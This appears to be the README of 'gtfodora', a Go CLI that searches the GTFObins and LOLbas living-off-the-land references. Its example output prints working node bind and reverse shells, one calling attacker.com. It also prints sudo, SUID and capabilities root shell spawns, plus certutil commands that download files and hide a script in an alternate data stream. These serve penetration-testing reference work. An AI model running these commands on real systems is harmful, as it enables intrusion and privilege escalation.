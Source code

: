 # Gtfodora
Explorer for GTFObins and LOLbas content.

The main purpose of this small tool is to give a CLI interface to the amazing [GTFObins](https://gtfobins.github.io/) and [LOLbas](https://lolbas-project.github.io/) projects.

The way `gtfodora` accomplishes this is quite dumb, it clones the repositories for the two sites and parses the `.yml` files, similarly to what the static site generator does.

## Disclaimer

I used this project to learn GO, or at least to get started with it. The code is probably bad, and there are several improvements that can be made. Please be forgiving and feel free to open PRs.

## Usage

```bash
Usage of ./gtfodora:
  -clone-path string
    	The path in which to clone the gtfobin and lolbas repos, defaults to "/tmp" (default ".")
  -f string
    	Filter the search only for the specified function
  -list-all
    	List all the binaries in the collection
  -list-functions
    	List the functions for the binaries
  -s string
    	Search for the binary specified and prints its details
  -unix
    	Filter the search among only unix binaries (i.e., gtfobin)
  -win
    	Filter the search among only windows binaries (i.e, lolbas)
```

The `-clone-path` defaults to `/tmp` and represents the directory in which the repositories will be cloned.
The `-list-all` and `-list-functions` print, respectively, all the binaries (both Unix and Windows) and all the functions that are available (i.e., "Download File" or "Execute").
The `-unix` and `-win` switches can be used together with all the other commands and will filter the results for GTFObins or LOLbas only, respectively.
The `-s` and `-f` can be used to search for specific binaries (-s), binaries that allow a certain function (-f) or to get the information on how a function is performed by a specific binary (combined).

## Examples

List all the functions for GTFObins:

```bash
./gtfodora -clone-path . -list-functions -unix
Functions available:
	Shell
	FileUpload
	FileDownload
	FileWrite
	FileRead
	LibraryLoad
	Sudo
	NonInteractiveReverseShell
	Command
	BindShell
	SUID
	LimitedSUID
	ReverseShell
	NonInteractiveBindShell
	Capabilities
```

Search for all the binaries that can perform the 'BindShell' function:

```bash
./gtfodora -f BindShell          
List of all the binaries with function BindShell:
nc
node
socat
```

Get the details of how a binary can accomplish the BindShell function:

```bash
./gtfodora -f BindShell -s node
The binary node allows to perform function BindShell.
Description:

Run `nc target.com 12345` on the attacker box to connect to the shell.
Code:

export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'
```

Get all the details about a specific binary:

```bash
./gtfodora -s node             
Information about: node
--------------------------------
Shell:
- Code:
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

--------------------------------
Sudo:
- Code:
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

--------------------------------
Bind Shell:
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'

--------------------------------
SUID:
- Code:
./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'

--------------------------------
Reverse Shell:
- Description:
Run `nc -l -p 12345` on the attacker box to receive the shell.
- Code:
export RHOST=attacker.com
export RPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
net.connect(process.env.RPORT, process.env.RHOST, function () {
  this.pipe(sh.stdin);
  sh.stdout.pipe(this);
  sh.stderr.pipe(this);
});'

--------------------------------
Capabilities:
- Code:
./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

Do the same, for a Windows binary: 

```bash
./gtfodora -s Certutil.exe
Information about: Certutil.exe
--------------------------------
Download:
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
--------------------------------
Download:
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
--------------------------------
ADS:
- Description:
Download and save a PS1 file to an Alternate Data Stream (ADS).
- Code:
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
--------------------------------
Encode:
- Description:
Command to encode a file using Base64
- Code:
certutil -encode inputFileName encodedOutputFileName
--------------------------------
Decode:
- Description:
Command to decode a Base64 encoded file.
- Code:
certutil -decode encodedInputFileName decodedOutputFileName
```
